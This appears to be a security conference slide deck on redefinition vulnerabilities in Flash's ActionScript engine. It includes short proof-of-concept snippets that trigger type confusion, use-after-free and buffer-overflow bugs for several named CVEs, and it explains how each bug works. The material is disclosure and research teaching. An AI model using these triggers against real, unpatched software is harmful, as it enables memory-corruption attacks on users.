 Attacking ECMAScript Engines with Redefinition
Natalie Silvanovich @natashenka

About me
 Security Engineer on Project Zero  Flash Enthusiast

Redefinition Vulnerabilities
 ECMAScript allows anything to be redefined as anything*  Redefinition can allow unexpected scripts to be executed
during native functions  Leads to some interesting bugs
* Your VM may vary

Example (in JavaScript)
<script> function f(mystring){ document.write(mystring);
} alert = f; alert("hello"); </script>

What happens?
(mostly)

(sometimes)

(sometimes)

Redefinition Vulnerabilities
 Sometimes called `re-entrance vulnerabilities'
 But re-entrance isn't always required!
 Flash seems especially susceptible to these issues
 We've found 24 in the past 6 months
 AS2 has the most problems as more can be redefined  There's also been a few bugs in AS3

Previous Redefinition Vulnerabilities
 Rootkits for JavaScript Environments -- Ben Adida, Adam Barth and Collin Jackson (WOOT 2009)
 CVE-2013-0756 -- ProxyObject UAF in FireFox (regenrecht)  CVE-2014-1705 -- OOB read/write in Chrome(geohot)  CVE-2014-8636 -- JS Privilege Escalation (Bobby Holley, Joe
Vennix)  Four issues found in HackingTeam leak (CVE-2015-5119, CVE-
2015-5122, CVE-2015-5123, CVE-2015-0349)

How to Redefine a Method

Equality Operator
 In AS2, everything can be redefined with the equality operator
 Might not compile  Read-only properties can be `fixed' with ASSetProps
 AS3 is much more restricted

Equality Operator Bug
 CVE-2015-3077
var blur = new flash.filters.BlurFilter(100, 15, 5555); this.filters = [blur]; //this is a Button flash.filters.BlurFilter =
flash.filters.ConvolutionFilter; var f = this.filters; var conv = f[0]; conv.matrix = [0,1,1,1,1,1,1,1,1,1,1,1,1,1];

Equality Operator Bug
 The filters property of the Button is set to a BlurFilter, which is stored natively
 The BlurFilter constructor is redefined  The filters property is read and the VM calls the constructor to
create the AS object which is a ConvolutionFilter  It creates the native object based on the BlurFilter  A ConvolutionFilter in script is backed by a native BlurFilter

Equality Operator Bug
 Type confusion  Not Real Code
BlurFilter* b = new BlurFilter() ... ConvolutionFilter c = (ConvolutuionFilter*) b; c.doConvolutionFilterStuff();

Another Equality Operator Bug
 Adobe Flash CVE-2015-0305
var b = flash.net; b.FileReference = q; function q(){
this.f = flash.display.BitmapData var c = new this.f(1000, 1000, true, 1000) } var file = new FileReferenceList(); ... file.browse();

Another Equality Operator Bug
 The FileReference constructor is overwritten with a method that calls the BitmapData constructor
 The VM assumes the object created is a FileReference  The ActionScript won't compile
 Use an assembler

Proxy Objects
 Proxy objects allow methods that handle every variable access to be defined
 Can sometimes replace objects with properties that can't be overwritten
 Has caused a few bugs in Firefox

Proxy Object Bug
 Adobe Flash CVE-2015-0327 (Ian Beer)
Stringify (VM!) code:
while (index != 0) { ownDynPropCount++; index = value->nextNameIndex(index);
}
AutoDestructingAtomArray propNames(m_fixedmalloc, ownDynPropCount); ...
while (index != 0) { Atom name = value->nextName(index); propNames.m_atoms[propNamesIdx] = name; propNamesIdx++; index = value->nextNameIndex(index);
}

Proxy Object Bug
ActionScript Code:
override flash_proxy function nextNameIndex(index:int):int { if (first_time) { if (index < 0x10) { return index + 1; } first_time = false; return 0; } else { if (index < 0x10000){ return index + 1; } return 0;}}

Proxy Object Bug
 Buffer overflow  The Proxy object returns a small number of items when they
are counted  Returns a larger number when they are written

Conversion Operators
 Flash calls valueOf and toString on function parameters often
 valueOf is called on most Number parameters  toString is called on most String parameters
 These can be overwritten to include any code
myFunc(a:Number, b:String); // a.valueOf gets called if it is not a Number // b.toString gets called if it is not a String // for realz

Conversion Operators
 CVE-2015-3039
var filter = new ConvolutionFilter(...); var n = {}; n.valueOf = ts; var a = []; for(var k = 0; k < 1; k++){
a[k] = n; } filter.matrix = a; function ts(){
filter.matrix = a; }

Conversion Operators
 Re-entrance bug  When ConvolutionFilter.matrix is set, it calls valueOf on each
int parameter  valueOf is redefined to set matrix again  matrix deletes and reallocates a buffer each time it is called  Calling matrix inside itself is a use-after-free

Conversion Operators
 CVE-2015-5119 (HT dump)
var b = new ByteArray(); b.length = 12; var n = new myba(b); b[0] = n;
In the myba class definition:
prototype.valueOf = function() {
b.length = 1000; }

Conversion Operators
 AVM Source
void ByteArrayObject:: setUintProperty(uint32_t i, Atom value)
{ m_byteArray[i] = uint8_t(AvmCore::integer(value));
}
 AvmCore::integer calls valueOf  valueOf can realloc m_byteArray by changing ByteArray length

watches
 Many objects support `watches' on properties  Can be used to interfere when a property is set

watches
 CVE-2015-3120
var fileRef:FileReferenceList = new FileReferenceList(); fileRef.addListener(listener); fileRef["fileList"] = "asdf"; fileRef.watch("fileList", func); fileRef.browse(allTypes);
function func(){
return 7777777; }

watches
 FileReferenceList.browse creates AS variable fileList and sets it to an Object value
 Setting it triggers the watch, which intercepts the call and sets the property to a Number value
 As the browse function continues to execute, it calls methods on fileList assuming it is still an Object

watches
 CVE-2015-3119
this.uri = "test"; var n = new NetConnection(); this.watch("uri", func); this["__proto__"] = n; this.connect(); var b = new BitmapData(10, 10, true, 10); b.setPixel.call(this, 10, 10, 10);
function func(a, b, c){ this.__proto__ = {}; this.__proto__.__constructor__ = flash.display.BitmapData; super(10, 10, false, 10);

watches
 A watch is set on the NetConnection which triggers when uri is set by the connect function
 The watch calls redefines the object constructor and calls the super constructor to turn the object into a String
 The connect function expects it to be a NetConnection, leading to type confusion
 The watch is necessary, because a type check occurs before the watch
 This bug redefines twice! With a watch and then with equality

Other Methods

Subclassing
 Properties of a class can sometimes be overwritten by extending the class
 Usually non-final properties can be replaced with getters and setters in a subclass

__resolve, __lookupGetter__
 Setting the __resolve property of an object causes every undefined property to go to a function
 Great for figuring out when a native jumps into script to find bugs
 JavaScript supports a similar property __lookupGetter__

getters and setters
 Getters and Setters can execute script when they are called by native functions
 addProperty in AS2  Function declaration in AS3  __defineGetter__ /__defineSetter__ in JavaScript
 Caused CVE-2014-1705 in Chrome  Native use of getters and setters uncommon in Flash

Finding Redefinition Issues

Finding Redefinition Issues
 Code review  Reverse engineering
 Many bugs are found with IDA
 API docs  Specialized fuzzers

Conclusion

Conclusion
 ECMAScript is largely too dynamic for its own good  We looked at ActionScript, but other ECMAScript engines have
similar issues  Go forth and find bugs!

Questions

Natalie Silvanovich @natashenka natalie@natashenka.ca
http://googleprojectzero.blogspot.ca/

